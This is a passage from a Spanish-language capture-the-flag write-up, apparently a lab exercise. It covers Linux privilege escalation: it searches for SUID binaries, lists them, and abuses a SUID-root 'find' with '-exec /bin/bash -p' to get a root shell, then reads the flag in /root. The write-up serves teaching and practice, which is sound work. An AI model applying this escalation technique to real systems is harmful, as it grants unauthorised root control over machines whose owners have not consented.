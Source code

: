 ### Búsqueda de Binarios SUID

Se utiliza el comando `find` para buscar archivos con el bit SUID activado en todo el sistema de archivos.

```bash
find / -perm -4000 -ls 2>/dev/null
```

### Salida de la Búsqueda SUID

```
77718566     44 -rwsr-xr-x   1 root     root        44304 Mar  7  2018 /bin/mount  
77718582     40 -rwsr-xr-x   1 root     root        40536 May 17  2017 /bin/su  
77718589     32 -rwsr-xr-x   1 root     root        31720 Mar  7  2018 /bin/umount  
76244841     52 -rwsr-xr-x   1 root     root        50040 May 17  2017 /usr/bin/chfn  
76244843     40 -rwsr-xr-x   1 root     root        40504 May 17  2017 /usr/bin/chsh  
76694335    220 -rwsr-xr-x   1 root     root       221768 Feb 18  2017 /usr/bin/find  
76381719     76 -rwsr-xr-x   1 root     root        75792 May 17  2017 /usr/bin/gpasswd  
76419523     40 -rwsr-xr-x   1 root     root        40312 May 17  2017 /usr/bin/newgrp  
76419534     60 -rwsr-xr-x   1 root     root        59680 May 17  2017 /usr/bin/passwd  
42369695    140 -rwsr-xr-x   1 root     root       140944 Jan 23  2021 /usr/bin/sudo
```

Entre los binarios listados, `find` (`/usr/bin/find`) puede ejecutar comandos externos (`-exec`) con los privilegios del propietario del archivo (en este caso, `root`).

### Explotación de `find` para Escalada de Privilegios

Para explotar el binario `find` con SUID, se utiliza el siguiente comando:

```bash
find . -exec /bin/bash -p \; -quit
```

Al ejecutar este comando, la terminal puede parecer que se queda "pillada" o no responde, pero en realidad, ya se ha obtenido una shell con privilegios de `root`.

### Verificación de Privilegios

Para confirmar que la escalada de privilegios ha sido exitosa, se ejecuta nuevamente el comando `whoami`:

```bash
whoami  
root
```

La salida `root` confirma que hemos obtenido acceso como el usuario `root`, lo que significa que tenemos control total sobre el sistema.

## 7. Obtención de la Flag Final

Una vez con privilegios de `root`, el último paso en este tipo de ejercicios es encontrar la "flag" o el archivo objetivo que demuestra la finalización del desafío. Generalmente, estos archivos se encuentran en directorios protegidos, como `/root`.

### Navegación y Recuperación de la Flag

```bash
cd /root  
ls  
secretitomaximo.txt  
cat secretitomaximo.txt  
nobodycanfindthispasswordrootrocks
```
